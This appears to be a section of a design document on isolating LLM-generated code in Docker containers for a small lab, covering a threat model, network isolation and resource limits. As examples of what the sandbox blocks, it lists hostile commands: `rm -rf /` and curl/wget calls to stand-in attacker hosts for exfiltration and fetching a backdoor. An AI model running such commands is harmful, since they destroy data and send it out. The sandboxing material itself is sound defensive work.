 ## 4. Security Through Simple Docker Isolation

### 4.1 Realistic Threat Model for Small Labs

Small AI research labs face **fundamentally different security requirements** than production platforms. Our threat model focuses on **preventing LLM accidents**, not defending against sophisticated attacks.

**Actual Threats We Face:**

1. **LLM Bugs**: Model accidentally generates `rm -rf /` or infinite loops
2. **Resource Exhaustion**: Code consumes all CPU/memory/disk
3. **Accidental File Deletion**: LLM removes important training data
4. **Network Accidents**: Code tries to `pip install` malicious packages

**NOT Real Threats (5-person trusted lab):**

- ❌ Container escape attempts (no adversaries)
- ❌ Privilege escalation chains (trusted users)
- ❌ Network exfiltration (no data theft motive)
- ❌ Zero-day kernel exploits (nobody attacking us)
- ❌ Coordinated attack campaigns

**Key Insight:** We need protection from **accidents**, not **attacks**.

### 4.2 The Three Essential Protections

Three simple Docker mechanisms provide adequate security for small research labs:

#### Protection 1: Network Isolation

```yaml
docker_config:
  network_mode: none  # No network interface at all
```

**Why:**
- LLMs can't accidentally `pip install` malicious packages
- No data exfiltration possible (nowhere to send data)
- Deterministic execution (no dependency on external services)

**What this blocks:**
- `pip install suspicious-package` → "Network unreachable"
- `curl http://attacker.com/exfil` → "Network unreachable"
- `wget http://malware.com/backdoor` → "Network unreachable"

**Trade-off:** If code genuinely needs network access (rare in CET training), run in separate container with network enabled and extra monitoring.

#### Protection 2: Resource Limits

```yaml
docker_config:
  memory: 512m-1g     # Max RAM (language-dependent)
  cpus: 1-2           # Max CPU cores
  pids_limit: 100     # Max processes (blocks fork bombs)
  disk_quota: 100m    # Max temporary disk writes
```
